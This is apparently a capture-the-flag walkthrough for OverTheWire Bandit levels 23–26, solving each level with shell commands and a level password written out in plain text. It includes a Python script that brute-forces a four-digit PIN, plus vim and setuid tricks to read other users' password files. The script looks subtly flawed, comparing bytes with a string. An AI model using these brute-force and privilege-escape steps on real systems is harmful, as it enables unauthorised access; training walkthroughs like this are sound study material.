 Bandit Level 23 Level 24 Walkthrough
```console
nc localhost 30002
mkdir -p /tmp/secttp
touch pincode.py
vim pincode.py
#!/usr/bin/env python3
# coding: utf-8
import sys
import socket
pincode = 0
password = "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"
try:
    # Connect to server
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("127.0.0.1", 30002))

    # Print welcome message
    welcome_msg = s.recv(2048)
    print(welcome_msg)
    # Try brute-forcing
    while pincode < 10000:
        pincode_string = str(pincode).zfill(4)
        message=password+" "+pincode_string+"\n"
        # Send message
        s.sendall(message.encode())
        receive_msg = s.recv(1024)
        # Check result
        if "Wrong" in receive_msg:
            print("Wrong PINCODE: %s" % pincode_string)
        else:
            print(receive_msg)
            break
        pincode += 1
finally:
    sys.exit(1)
python ./pincode.py
```

Bandit Level 24 Level 25 Walkthrough
```console
ls -al bandit26.sshkey
ssh bandit26@bandit.labs.overthewire.org -p 2220 -i bandit26.sshkey
cat /etc/passwd | grep bandit26
cat /usr/bin/showtext
:e /etc/bandit_pass/bandit26
```

Bandit Level 25 Level 26 Walkthrough
```console
:set shell=/bin/bash
whoami
ls
./bandit27-do
./bandit27-do cat /etc/bandit_pass/bandit27
```
